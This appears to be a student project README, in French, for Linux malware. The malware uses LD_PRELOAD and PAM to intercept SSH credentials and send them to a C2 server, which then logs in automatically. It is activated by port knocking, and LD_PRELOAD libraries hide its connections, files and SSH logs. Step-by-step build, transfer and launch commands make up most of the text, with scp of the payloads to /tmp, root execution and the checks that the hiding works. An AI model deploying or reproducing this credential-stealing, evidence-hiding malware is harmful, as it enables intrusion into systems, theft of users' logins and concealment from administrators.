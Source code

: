  # Malika MECHKAL 3SI2

🛠️ README : Malware avec LD_PRELOAD & Port Knocking

📌 Introduction
Ce projet implémente un malware furtif exploitant LD_PRELOAD et PAM (Pluggable Authentication Modules) pour capturer les identifiants SSH et masquer sa présence sur la machine cible.

Le malware est activé via un mécanisme de Port Knocking nécessitant une séquence secrète de frappes sur les ports 1111, 2222 et 3333. Une fois activé, il intercepte les connexions SSH, récupère les identifiants et établit une connexion ssh automatique avec un serveur C2.

🔹 Fonctionnalités
    Port Knocking : Activation secrète du malware en écoutant sur 3 ports.
    Interception des identifiants SSH avec PAM.
    Masquage des connexions réseau via hide_connections.so.
    Masquage des fichiers malveillants via hide_files.so.
    Suppression et blocage des logs via hide_logs.so.
    Connexion ssh automatique sur la cible depuis serveur C2 après interception des identifiants.

📂 Installation & Exécution
#  1- Configuration des IPs
    Avant de compiler, assurez-vous de configurer les IP correctes dans les fichiers malware.c et server.c :
```
#define C2_IP "192.168.18.128"  // IP du serveur C2
#define TARGET_IP SI"192.168.18.130"  // IP de la machine cible

```

# 2- Compilation du projet
Sur la machine serveur C2, utilisez make pour compiler tous les fichiers 
```
make 

```
Cela génère les exécutables suivants :
*   server
*   port_knock
*   malware.so
*   hide_connections.so
*   hide_files.so
*   hide_logs.so

# 3-  Transfert des fichiers vers la machine cible
Transférez les fichiers générés (sauf server) vers /tmp/ sur la machine cible :
```
scp port_knock malware.so hide_connections.so hide_files.so hide_logs.so user@192.168.18.130:/tmp

```
# 4-  Préparation de la machine cible
Sur la machine cible, désactivez SSH et préparez l’environnement :
```
sudo systemctl stop ssh
sudo mkdir -p /usr/sbin/sshd

```

# 5- Lancement du Port Knocking
Sur la machine cible, exécutez port_knock en mode root dans le dossier /tmp:
```
sudo ./port_knock
```

# 6- Lancement du serveur C2
Sur la machine serveur C2 :
```
./server
```
Le serveur attend la frappe secrète des ports pour activer le malware.

# 7- Activation automatique du malware
Lorsque le C2 envoie des paquets aux ports 1111, 2222 et 3333, la machine cible détecte la séquence et démarre le malware avec LD_PRELOAD(malware.so).

# 8- Connexion SSH automatique & interception
*   Après activation, la machine cible attend une connexion SSH.
*   Lorsqu’un utilisateur se connecte en SSH, les identifiants sont interceptés et envoyés au serveur C2.
*   Le serveur C2 utilise ces identifiants pour se connecter automatiquement à la machine cible.
*   Un fichier credentials.log est créé à la racine du serveur avec les identifiants capturés.

# 9- Tests & Vérifications
Masquer les connexions réseau
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_connections.so netstat -tulnp
```
    => Les ports 1111, 2222 et 3333 doivent être invisibles.

# 10- Masquer les fichiers malveillants
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_files.so ls -la /tmp
```
    => Les fichiers du malware (malware.so, hide_*.so) ne doivent pas apparaître.

# 11- Masquer les logs
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_logs.so journalctl -xe
```
    => Les logs liés aux connexions SSH ne doivent plus apparaître.

# /!\######## Problème avec la branche DEV_USER_NON_ROOT
Une tentative a été faite pour exécuter port_knock sans être root, mais cela a posé des problèmes de clés SSH.

Même en copiant correctement les clés dans /tmp/ssh, l’authentification ne fonctionnait pas.


